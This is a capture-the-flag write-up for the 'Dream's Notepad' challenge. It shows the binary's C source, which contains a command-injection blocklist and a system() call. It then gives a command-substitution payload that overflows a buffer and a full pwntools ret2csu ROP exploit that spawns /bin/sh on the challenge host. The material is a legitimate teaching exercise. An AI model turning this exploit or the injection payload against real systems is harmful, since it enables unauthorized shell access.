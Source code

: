 # Write Up

Source code of binary is given

```
void main()
{
    Initalize();

    puts("Welcome to Dream's Notepad!\n");

    char title[10] = {0,};
    char content[64] = {0,};

    puts("-----Enter the content-----");
    read(0, content, sizeof(content) - 1);

    for (int i = 0; content[i] != 0; i++)
    {
        if (content[i] == '\n')
        {
            content[i] = 0;
            break;
        }
    }

    if(strstr(content, ".") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "/") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, ";") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "*") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "cat") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "echo") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "flag") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "sh") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "bin") != NULL) {
        puts("It can't be..");
        return;
    }

    char tmp[128] = {0,};

    sprintf(tmp, "echo %s > /home/Dnote/note", content);
    system(tmp);
    
    FILE* p = fopen("/home/Dnote/note", "r");
    unsigned int size = 0;
    if (p > 0)
    {
        fseek(p, 0, SEEK_END);
        size = ftell(p) + 1;
        fclose(p);
        remove("/home/Dnote/note");
    }

    char message[256];
    
    puts("\n-----Leave a message-----");
    read(0, message, size - 1);

    puts("\nBye Bye!!:-)");
}
```

# Primitives

There is no canary in this binary <br>

And by sending 
```
p.send(b"$(printf '%01000d' 0)")
```

we can manipulate **size** varaible => Bof + ret overwrite <br>

In this binary there are two useful gadgets: csu_init, csu_call <br>

![csuinit](../images/DreamNotepad_csuinit.png) <br>

![csucall](../images/DreamNotepad_csucall.png) <br>

With these two gadgets, we can call functions whatever we want!! <br>

# Exploit

1. By calling **read(0,bss,8)** => Make /bin/sh string 
2. call system(/bin/sh)

Exploit Code is like this

```
from pwn import *
context.log_level = 'debug'
p = remote('host8.dreamhack.games', 14070)
e = ELF('./Notepad')
libc = e.libc
bss = p64(e.bss())

csu_init = p64(0x400c6a)
csu_call = p64(0x400c50)
ret = p64(0x400c8c)

p.recvuntil("----\n")
p.send(b"$(printf '%01000d' 0)")

p.recvuntil("----\n")

payload = b'A' * 488
payload += csu_init
payload += p64(0)
payload += p64(1)
payload += p64(e.got['read'])
payload += p64(8)
payload += bss
payload += p64(0)
payload += csu_call

payload += b'A' * 8
payload += p64(0)
payload += p64(1)
payload += p64(e.got['system'])
payload += p64(0)
payload += p64(0)
payload += bss
payload += ret
payload += csu_call

p.sendline(payload)

time.sleep(1)

p.send('/bin/sh\x00')

p.interactive()

```

Things I learned: Do not trust ropr <br>

![ropr](../images/DreamNotepad_ropr.png) <br>

I couldn't find **pop rbx** only with the result of ropr....